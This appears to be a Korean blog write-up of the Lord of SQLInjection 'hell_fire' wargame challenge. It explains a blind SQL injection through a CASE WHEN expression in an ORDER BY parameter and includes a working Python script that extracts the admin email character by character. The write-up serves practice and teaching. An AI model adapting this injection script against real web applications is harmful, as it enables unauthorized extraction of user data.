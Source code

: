 ```yaml
---
layout: single
title: "[Lord of SQLInjection] hell_fire write-up"
date: 2025-05-03 19:17 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (hell_fire)

### 풀이

이번 문제는 `prob _ . proc union` 키워드를 필터링하고, order 파라미터를 넣어 요청할 때 result의 id값이 admin이 있으면 email을 `*` 문자로 표시하고 있다. 그리고 아래 부분을 보면 `addslashes` 함수로 email 파라미터를 받아와 필터링하기 때문에 admin의 email 값을 알아내야 solve 할 수 있다.

![image-20250502013921437](/images/2025-05-02-los-hell-fire/image-20250502013921437.png)

<br>

order by 절에서 case when을 사용해서 id가 admin일 때1로 만들고 rubiya일 때는 2로 해서 넣어보면 순서대로 admin이 먼저 나오고 case when이 잘 동작하는 걸 확인할 수 있다.

![image-20250503184609752](/images/2025-05-02-los-hell-fire/image-20250503184609752.png)

<br>

아래처럼 SQL 쿼리를 만들면 admin 계정 email 값의 첫 글자가 A이면 admin이 먼저 위에 올라오고 아니라면 rubiya 계정이 먼저 정렬된다는 것을 예측할 수 있다.

```sql
SELECT id, email, score 
FROM prob_hell_fire 
WHERE 1 
ORDER BY (
  CASE 
    WHEN id='admin' AND ASCII(SUBSTR(email, 1, 1))=65 THEN 1
    WHEN id='rubiya' THEN 2
    ELSE 5
  END
)-- -
```

<br>

파이썬으로 코드를 짜면 admin과 rubiya 계정의 score 점수의 text index를 기준으로 blind sqli를 수행할 수 있다.

```python
import requests
import time

url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"
cookie = {"PHPSESSID": "d5fo2u0cj07ikqrk2qftquavbd"}
email = ""

for i in range(1, 100):
    found = False
    for j in range(32, 127):
        param = {
            "order": f"(case WHEN id='admin' AND ASCII(SUBSTR(email, {i}, 1))={j} THEN 1 when id='rubiya' then 2 ELSE 5 END)-- -"
        }
        r = requests.get(url=url, cookies=cookie, params=param)
        # print(r.text)
        admin_index = r.text.find("200")
        rubiya_index = r.text.find("100")
        #print(f"admin: {admin_index}, rubiya: {rubiya_index}")
        if admin_index < rubiya_index:
            found = True
            email += chr(j)
            print(f"password {i}번째 문자는 {chr(j)}입니다.")
            break
    if not found:
        print("end")
        print(email)
        break

print(email)

```

![image-20250503191658653](/images/2025-05-02-los-hell-fire/image-20250503191658653.png)

![image-20250503191704932](/images/2025-05-02-los-hell-fire/image-20250503191704932.png)
